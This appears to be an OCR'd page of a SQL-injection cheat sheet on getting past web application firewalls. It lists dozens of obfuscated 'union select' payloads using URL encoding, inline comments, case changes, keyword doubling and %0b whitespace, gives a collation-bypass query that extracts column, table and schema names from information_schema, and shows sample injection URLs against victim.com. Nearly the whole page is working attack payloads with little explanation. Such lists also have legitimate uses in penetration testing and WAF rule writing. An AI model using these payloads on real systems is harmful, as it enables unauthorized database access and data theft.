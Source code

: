 `  /*!UnIoN*/SeLecT+`

**Union Select by PASS with Url Encoded Method:**
%55nion(%53elect)
union%20distinct%20select
union%20%64istinctRO%57%20select
union%2053elect
%23?%0auion%20?%23?%0aselect
%23?zen?%0Aunion all%23zen%0A%23Zen%0Aselect
%55nion %53eLEct
u%6eion se%6cect
unio%6e %73elect
unio%6e%20%64istinc%74%20%73elect
uni%6fn distinct%52OW s%65lect
%75%6e%6f%69%6e %61%6c%6c %73%65%6c%65%63%7
**Illegal mix of Collations ByPass Method :**
unhex(hex(Concat(Column_Name,0x3e,Table_schema,0x3e,table_Name)))

`   /*!from*/information_schema.columns/*!where*/column_name%20/*!like*/char(37,%20112,%2097,%20115,%20115,%2037)`

`   union select 1,2,unhex(hex(Concat(Column_Name,0x3e,Table_schema,0x3e,table_Name))),4,5 /*!from*/information_schema.columns/*!where*/column_name%20/*!like*/char(37,%20112,%2097,%20115,%20115,%2037)?`



## Bypass with Comments

SQL comments allow us to bypass a lot of filtering and WAFs.

```
 Code :
 http://victim.com/news.php?id=1+un/**/ion+se/**/lect+1,2,3--

```

## Case Changing

Some WAFs filter only lowercase SQL keyword.

Regex Filter: /union\\sselect/g

    http://victim.com/news.php?id=1+UnIoN/**/SeLecT/**/1,2,3--

## Replaced Keywords

Some application and WAFs use preg_replace to remove all SQL keyword.
So we can bypass easily.

    http://victim.com/news.php?id=1+UNunionION+SEselectLECT+1,2,3--

Some case SQL keyword was filtered out and replaced with whitespace. So
we can use "%0b" to bypass.

    http://victim.com/news.php?id=1+uni%0bon+se%0blect+1,2,3--
